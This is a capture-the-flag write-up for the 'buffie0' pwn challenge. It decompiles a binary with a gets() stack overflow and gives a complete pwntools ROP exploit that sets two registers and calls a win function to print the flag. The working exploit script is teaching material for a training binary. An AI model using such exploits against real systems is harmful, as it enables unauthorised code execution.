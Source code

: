 # buffie0 - Pwn challenge

First of all, with `file` we see that the binary is a `ELF 64-bit LSB executable`. Let's open `ghidra` to analyze it.  
The `main` function looks like this:  

```c
int main(void)

{
  setvbuf(stdout,(char *)0x0,2,0);
  welcome();
  vuln();
  goodbye();
  return 0;
}
``` 
As we can easily understand, `vuln` is the function that we have to exploit. Analyzing `vuln`:
```c
void vuln(void)

{
  char buf [100];
  
  puts("Tell me your name friend..");
  gets(buf);
  printf("\nYou think you can pwn me %s!?\n",buf);
  return;
}
```
This is pretty straight forward. There is a `gets` function. That means we can do a **Buffer Overflow**. So, we found the vulnerable part of the code.  
We also see that there is a `win` function in the code.  
```c
void win(longlong arg1,longlong arg2)

{
  FILE *__stream;
  char buf [256];
  FILE *f;
  
  if ((arg1 == 0xdeadbeef) && ((arg2 ^ arg1) == 0xdeadbee6)) {
    puts("Go get \'em champ!\n");
    __stream = fopen("./flag.txt","r");
    if (__stream == (FILE *)0x0) {
      puts("Someone stole the flag! Talk to **w3th4nds**\n");
    }
    else {
      fgets(buf,0x100,__stream);
      printf("Enjoy your flag!\n%s",buf);
    }
    return;
  }
  puts("\n\nYou reached win, but you forgot the args.. Better luck next time :)\n\n");
                    /* WARNING: Subroutine does not return */
  exit(1);
}
```
It takes 2 arguments and then there is an `if` which compares if:
* arg1 = 0xdeadbeef
* arg1 ^ arg2 = 0xdeadbee6
and if so, it reads and prints the flag.  

Our goal is:
* Overflow the buffer
* Call `win` with 2 args
* arg1 = 0xdeadbeef and arg2^arg1 = 0xdeadbee6

To get arg2: 0xdeadbeef^0xdeadbee6 = 0x9  
Functions args in 64-bit, got to `rdi`, `rsi`, `rdx` etc.  
So our payload should look like this:  

```sh
payload = junk + pop_rdi + arg1 + pop_rsi + arg2 + fake + win
``` 
I used `pwntools` to exploit it.  

```python
#!/usr/bin/python3
from pwn import *

ip = 'ctf.uniwa.gr'
port = 2004
filename = './buffie0'

def pwn():
    #r = remote(ip, port)
    r = process(filename)
    elf = ELF(filename)
    rop = ROP(elf)
    win = p64(elf.symbols['win'])
    junk = b'z'*120
    arg1 = p64(0xdeadbeef)
    arg2 = p64(0x9)
    pop_rdi = p64((rop.find_gadget(['pop rdi']))[0]) 
    pop_rsi = p64((rop.find_gadget(['pop rsi']))[0]) 
    fake = p64(0x0)
    payload = junk +  pop_rdi + arg1 + pop_rsi + arg2 + fake + win
    r.sendlineafter('friend..', payload)
    r.recvlines(6)
    flag = r.recvline()
    log.success('Flag: {}'.format(flag.decode('utf8')))
    
pwn()
```
